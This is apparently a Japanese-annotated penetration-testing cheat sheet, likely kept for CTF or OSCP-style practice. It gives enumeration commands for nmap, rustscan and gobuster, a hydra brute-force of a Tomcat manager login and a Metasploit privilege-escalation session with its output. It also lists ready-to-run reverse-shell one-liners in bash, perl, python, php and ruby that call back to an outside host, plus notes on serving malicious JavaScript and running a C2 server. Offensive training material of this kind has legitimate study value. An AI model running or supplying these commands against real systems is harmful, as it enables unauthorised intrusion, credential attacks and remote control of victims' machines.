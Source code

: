 # Cheat Sheet


## Enumeration
### nmap
- 全ポートスキャン: `nmap -sS -A -T4 -Pn -p- $IP`
- 特定ポートのチェック: `nmap -sS -A -p[port] --script vuln $IP`

### rustscan
- installation: `sudo snap install -y rustscan`
- 全ポートスキャン: `rustscan -a $IP --ulimit 10000 -- -Pn -A --script vuln > rustscan.log`

### gobuster
- ディレクトリやファイルの探索
  - `gobuster -u http://$IP -w ~/tools/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -t 50`

## Password Cracking
### hydra
- webサービスで総当たりする
- Basic認証総当たり(`user:pass`形式のコーパス): `hydra -C ~/tools/wordlists/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-post://$IP:8080/manager/html`


## Exploitation
### Webshell
- web上でコマンド実行できる
- https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html

### msfvenom
- metasploitのペイロードを取れる
- ペイロードの列挙: `msfvenom -l payloads`


## Privesc
### local exploit suggester
- meterpreter shell をバックグラウンドに移し、```use post/multi/recon/local_exploit_suggester``` する
- sesionオプションを指定し、run 
  ```msf6 exploit(windows/iis/iis_webdav_upload_asp) > use post/multi/recon/local_exploit_suggester
  msf6 post(multi/recon/local_exploit_suggester) > options

  Module options (post/multi/recon/local_exploit_suggester):

     Name             Current Setting  Required  Description
     ----             ---------------  --------  -----------
     SESSION                           yes       The session to run this module on
     SHOWDESCRIPTION  false            yes       Displays a detailed description for the available e
                                                 xploits

  msf6 post(multi/recon/local_exploit_suggester) > set session 3
  session => 3
  msf6 post(multi/recon/local_exploit_suggester) > run

  [*] 10.10.10.15 - Collecting local exploits for x86/windows...
  [*] 10.10.10.15 - 37 exploit checks are being tried...
  [+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
  [+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
  [+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
  [+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
  [+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
  [+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
  [*] Post module execution completed
  ```



## Reverse shells
### Receiver
- `nc -lnvp 4444`

### sender
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- bash: `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`
- perl: `perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
- python: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- php: `php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
- ruby: `ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`


## Miscellaneous
### SimpleHTTPserver
- カレントディレクトリをルートとした簡易Webサーバを立てることができる．
  - ```sudo python -m SimpleHTTPServer [port]```
- 対象サーバで```<script src="http://.../a.js">```により任意の悪意のあるJavaScriptを実行させることなどが可能

### SilentTrinity
- C2 server を立てることができる
